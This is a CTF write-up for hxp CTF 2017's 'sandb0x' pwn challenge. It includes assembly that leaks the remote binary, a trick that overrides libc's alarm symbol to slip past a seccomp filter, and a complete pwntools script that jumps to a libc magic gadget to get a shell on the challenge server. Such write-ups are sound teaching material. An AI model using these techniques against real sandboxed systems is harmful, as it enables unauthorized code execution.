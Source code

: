 # Writeup for sandb0x (pwn, 200 + 75 pts, 4 solves), hxp CTF 2017

Description:

> see http://www.gifbin.com/bin/33yusw44837sw.gif
>
> Download: [b2ba438dde0be512af486c0d2f1139a9eda8a607632dc4746dc60f75b2c36121.tar.xz](https://2017.ctf.link/assets/files/b2ba438dde0be512af486c0d2f1139a9eda8a607632dc4746dc60f75b2c36121.tar.xz)
>
> Connection: nc 35.198.105.104 26739

## TL;DR

- We can upload assembly code wich gets executed

- Seccomp filters prevent us from using most syscalls

- Overwrite libc symbols in the assembly to bypass seccomp

- Leak the remote binary and libc

- Let the assembly code jump to a magic gadget to get a shell

## The Task

We can input up to 80 characters of x86-64 assembler in AT&T syntax, and the target will compile it together with a `main.c` and execute it on the remote server. We don't know the contents of `main.c`, but it will likely set up a seccomp filter before calling our code, because the binary is linked against libseccomp (`-lseccomp`).

## The Bug

The obvious vulnerability is that we can execute code on the target machine, although only in small chunks of 80 characters. Another vulnerability is that we are able to export symbols from our assembly code to the linker (`.global` is allowed), which allows us to overwrite functions imported from libraries.

## The Exploit

We have no idea of what syscalls the seccomp filter allows or what the contents of `main.c` are, so the first thing to do is leak the remote binary. I used the following code:

```assembly_x86
mov $1,%rax;
mov $1,%rdi;
mov (%rsp),%rsi;
sub $0,%rsi;
mov $9999,%rdx;
syscall
```

Increase the amount subtracted from `rsi` until you hit the ELF header, then decrease it to leak the first segment of the binary, which contains all of the code.

Using the same technique, we can leak the second segment of the binary containing the data, bss and GOT. With the GOT, the string table and the references to the GOT from the code, we can resolve the addresses of `_IO_2_1_stdin_`, `_IO_2_1_stdout_` and `_IO_2_1_stderr_` and use [libc.blukat.me](https://libc.blukat.me/) to find 6 versions of libc with matching offsets.

After analyzing the leaked code we see that the seccomp filters only allow `write`, `exit`, `clock_gettime` and `exit_group` syscalls, but we can bypass seccomp easily by exporting our own `alarm` function, which the binary calls instead of libc's `alarm` before setting up seccomp.

At this point, we know the remote libc (we have 6 possibilities, but we will just try them all), and we can execute a small amount of code without syscall restrictions. To finally pop a shell, we hook the `alarm` function, calculate the address of libc's magic gadget, and jump there:

(`r11` contains the address of libc's `setbuf` when `alarm` is called, and `$XX` should be replaced with the offset of the magic gadget from `setbuf`)

```assembly_x86
.global alarm;
alarm:
add $XX,%r11;
jmp %r11
```

Putting everything together, we end up with the following exploit:

```python
from pwn import *

context.arch = 'amd64'

def exe(code):
    code = ''.join(c for c in code if c in '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ%.,;:()$_- ')

    r = remote('35.198.105.104', 26739)
    r.sendlineafter('x86-64> ', code)
    out = r.recvrepeat(1)

    if r.connected('recv'):
        info("-- GOT SHELL --")
        r.interactive()
    r.close()

    return out

if __name__ == '__main__':

    libcs = [('remote_libc/libc6_2.24-3ubuntu1_amd64.so', 0x455aa),
             ('remote_libc/libc6_2.24-3ubuntu2_amd64.so', 0x455aa),
             ('remote_libc/libc6_2.24-9ubuntu2_amd64.so', 0x4557a),
             ('remote_libc/libc6-amd64_2.24-3ubuntu1_i386.so', 0x3f3ea),
             ('remote_libc/libc6-amd64_2.24-3ubuntu2_i386.so', 0x3f3ea),
             ('remote_libc/libc6-amd64_2.24-9ubuntu2_i386.so', 0x3f3da)]

    for path, magic in libcs:
        e = ELF(path)
        offset = magic - e.symbols['setbuf']
        info("libc: %s, offset: 0x%x" % (path, offset))

        info("%s\n%s" % exe('''
.global alarm;
alarm:
add ${},%r11;
jmp %r11'''.format(offset)))
```

The very last of our libc candidates succeeds and we get a shell.

Flag: `hxp{w3nn_1ch_6r055_b1n_5p13l3_1ch_n1ch7_m3hr_1m_54ndk4573n}`
